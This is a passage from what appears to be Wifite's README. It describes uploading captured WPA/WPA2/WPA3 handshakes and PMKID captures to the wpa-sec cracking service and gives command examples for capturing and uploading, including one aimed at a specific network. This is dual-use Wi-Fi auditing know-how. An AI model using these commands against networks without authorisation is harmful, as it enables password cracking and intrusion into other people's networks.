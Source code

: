 #### Supported Capture Types

Wifite can upload all types of WPA/WPA2/WPA3 captures to wpa-sec:

* **WPA/WPA2 Handshakes** - Traditional 4-way handshake captures (.cap, .pcap, .pcapng)
* **PMKID Captures** - Clientless WPA2 attack captures (.pcapng format from hcxdumptool)
* **WPA3-SAE Handshakes** - WPA3 authentication captures (.pcapng)
* **Compressed Files** - Gzip-compressed captures (.gz)

**Note:** wpa-sec only accepts pcap/pcapng packet capture formats. Hash files (.22000) are not supported for upload.

#### Usage Examples

**Basic WPA attack with upload:**
```bash
sudo wifite --wpa --wpasec --wpasec-key YOUR_API_KEY
```

**PMKID attack with automatic upload:**
```bash
sudo wifite --pmkid --wpasec --wpasec-key YOUR_API_KEY --wpasec-auto
```

**WPA3 attack with email notifications:**
```bash
sudo wifite --wpa3-only --wpasec --wpasec-key YOUR_API_KEY --wpasec-email you@example.com
```

**Target specific network and upload:**
```bash
sudo wifite -b AA:BB:CC:DD:EE:FF --wpasec --wpasec-key YOUR_API_KEY
```

**Dual interface mode with automatic upload:**
```bash
sudo wifite --dual-interface --wpasec --wpasec-key YOUR_API_KEY --wpasec-auto
```

#### Tool Requirements

WPA-SEC integration requires the `wlancap2wpasec` tool from the hcxtools suite:

```bash
# Kali Linux / Debian / Ubuntu
sudo apt update && sudo apt install hcxtools

# Arch Linux
sudo pacman -S hcxtools

# Verify installation
wlancap2wpasec --version
```

**Note:** wlancap2wpasec is optional - wifite will work normally without it, but wpa-sec upload features will be unavailable.

#### Troubleshooting
